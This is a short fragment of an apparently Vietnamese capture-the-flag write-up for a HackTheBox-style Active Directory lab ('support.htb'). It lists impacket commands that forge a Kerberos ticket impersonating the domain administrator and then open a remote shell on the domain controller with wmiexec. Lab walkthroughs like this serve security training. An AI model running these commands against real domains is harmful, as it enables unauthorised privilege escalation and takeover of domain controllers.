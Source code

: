 tạo ticket cho user administrator để login

- impacket-getST support.htb/giang:giang -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
- export KRB5CCNAME=administrator.ccache
- impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k

![https://lh7-us.googleusercontent.com/OvlL0C3Gyqfk4jjQgi96ly3pDapoRUmOaqUZlPsGoVkS2gljfv06Um6_EwIEYDtq5NCgPwWdbY4FS69G87atdmo45mnSXAQa8Jiqqt6LlB67D4ypUHuXWpGH_DFGk2Z12yPfkf-vZI15](https://lh7-us.googleusercontent.com/OvlL0C3Gyqfk4jjQgi96ly3pDapoRUmOaqUZlPsGoVkS2gljfv06Um6_EwIEYDtq5NCgPwWdbY4FS69G87atdmo45mnSXAQa8Jiqqt6LlB67D4ypUHuXWpGH_DFGk2Z12yPfkf-vZI15)

![https://lh7-us.googleusercontent.com/OnttPSqBlD2ba4OcL0Zfj_VPGbT-ZW3Y_OCxLiIc7Ra_i44Dvdeyqkvolb74VqX6wgUxd4GSTAPhWNnfcS6WAQD0JuprhBiGdVG2pOitIut6LDsBwd7f0iJft7hsRUiJ25IHMhOT9MM0](https://lh7-us.googleusercontent.com/OnttPSqBlD2ba4OcL0Zfj_VPGbT-ZW3Y_OCxLiIc7Ra_i44Dvdeyqkvolb74VqX6wgUxd4GSTAPhWNnfcS6WAQD0JuprhBiGdVG2pOitIut6LDsBwd7f0iJft7hsRUiJ25IHMhOT9MM0)